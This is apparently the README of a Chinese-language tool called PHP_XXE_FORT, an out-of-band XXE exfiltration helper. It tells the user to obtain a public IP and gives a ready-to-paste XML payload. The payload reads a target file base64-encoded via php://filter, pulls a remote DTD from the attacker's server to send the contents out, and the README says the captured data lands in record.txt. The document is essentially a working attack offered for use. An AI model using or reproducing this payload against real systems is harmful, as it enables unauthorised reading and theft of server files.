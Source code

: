 # PHP_XXE_FORT
简易的PHP XXE炮台小工具
##建议申请个公网IP，事半功倍
###抓包后改固定内容如下，才能和炮台进行联动

<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../目标数据路径">
<!ENTITY % remote SYSTEM "http://公网IP/fort.xml"> 
%remote;
%send; 
]>

###查看数据请到record.txt中查看




